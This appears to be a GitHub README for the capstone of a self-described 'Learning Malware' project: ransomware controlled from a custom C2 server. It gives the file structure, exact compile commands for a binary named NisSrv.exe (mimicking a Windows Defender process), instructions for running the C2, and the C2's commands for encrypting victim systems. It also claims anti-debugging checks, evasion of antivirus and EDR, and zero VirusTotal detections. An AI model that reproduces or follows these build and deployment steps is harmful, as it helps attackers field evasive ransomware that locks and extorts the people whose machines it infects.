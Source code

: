 # 17 - Putting It All Together
This is the last project in my Learning Malware project. From knowing nothing about malware development, I've created malware that is undetectable by anti-virus and EDR solutions, created my own infrastructure and C2, and leanred many interseting anti-foresnics techniques to look out for when reverse engineering. 

This ransomware uses custom assembly to get the PEB, and check if the executable is in a debugger. If it is, it halts execution. I will leave it as an exercise to the reader to implement the self deleting code (Module 8). 

### File Structure
- C2 Server
  - c2.py -> handles C2 logic (runs as a background process)
  - cli.py -> to interface with the C2
- Ransomware
  - decrypt.cpp
  - decrypt.h
  - encrypt.cpp
  - encrypt.h
  - enumerate_files.cpp
  - enumerate_files.h
  - getPEBasm.asm
  - win_client.cpp
  - win_client.h

### Compilation
To compile the assembly:
- `ml64 /c /Fo .\getPEB.obj .\getPEBasm.asm`
To compile the ransomware:
`g++ win_client.cpp encrypt.cpp decrypt.cpp enumerate_files.cpp getPEB.obj -o NisSrv.exe -L"C:/Users/thoma/Downloads/openssl-3.3.0/" -I"C:/Users/thoma/Downloads/openssl-3.3.0/include/" -lssl -lcrypto -lws2_32 -liphlpapi -lpsapi -lnetapi32 -lbcrypt -lcrypt32  -static-libgcc -static-libstdc++ -static -lpthread -mwindows`

### Running
To setup the C2 server, simply run: `python3 c2.py`. To interface with the C2, run the cli either locally or remotely with `python3 cli.py <host> <port>`. Replace "<host>" and "<port>" with the respective host and port numbers of the listening interface on the C2.

To execute the different modules of the malware, you can run the following commands
```
    send_private_key <client_id> - Send the private key to the specified client.
    encryptFile <client_id> <filename> - encrypts a specified file using the client's public key
    decyrptFile <client_id> <filename> - decrypts a file using the host's private key
    ransomEncrypt <client_id> - encrypts system using transmitted public key
    ransomDecrypt <client_id> - decrypts specified system
    exit - Exit the CLI tool.
    help - Show this help menu.
```

### Demo


### VirusTotal
![Virus Total page shows zero vendors found this code to be malicious](https://github.com/ThomasNJordan/MalwareDev/tree/main/17%20-%20Putting%20It%20All%20Together/Assets/vtotal.png)